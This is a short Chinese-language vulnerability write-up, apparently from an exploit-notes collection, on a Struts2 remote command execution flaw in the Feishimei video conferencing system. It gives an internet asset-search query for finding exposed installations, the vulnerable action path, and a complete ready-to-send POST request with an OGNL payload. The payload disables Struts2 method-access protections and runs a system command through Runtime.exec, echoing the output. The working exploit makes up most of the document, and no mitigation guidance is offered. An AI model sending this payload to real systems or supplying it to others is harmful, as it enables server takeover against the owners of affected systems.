


# 飞视美 视频会议系统 Struts2 远程命令执行漏洞

## 漏洞描述

飞视美 视频会议系统 Struts2组件存在远程命令执行漏洞，通过漏洞攻击者可执行任意命令获取服务器权限

## 漏洞影响

```
飞视美 视频会议系统
```

## 网络测绘

```
app="飞视美-视频会议系统"
```

## 漏洞复现

登录页面



存在漏洞的路径为

```
/confinfoaction!showallConfinfos.action
```

发送请求包

```
POST /confinfoaction!showallConfinfos.action HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 669
Host: 
Connection: Keep-Alive

('\43_memberAccess.allowStaticMethodAccess')(a)=true&(b)(('\43context[\'xwork.MethodAccessor.denyMethodExecution\']\75false')(b))&('\43c')(('\43_memberAccess.excludeProperties\75@java.util.Collections@EMPTY_SET')(c))&(g)(('\43mycmd\75\'ipconfig\'')(d))&(h)(('\43myret\75@java.lang.Runtime@getRuntime().exec(\43mycmd)')(d))&(i)(('\43mydat\75new\40java.io.DataInputStream(\43myret.getInputStream())')(d))&(j)(('\43myres\75new\40byte[51020]')(d))&(k)(('\43mydat.readFully(\43myres)')(d))&(l)(('\43mystr\75new\40java.lang.String(\43myres)')(d))&(m)(('\43myout\75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(n)(('\43myout.getWriter().println(\43mystr)')(d))
```

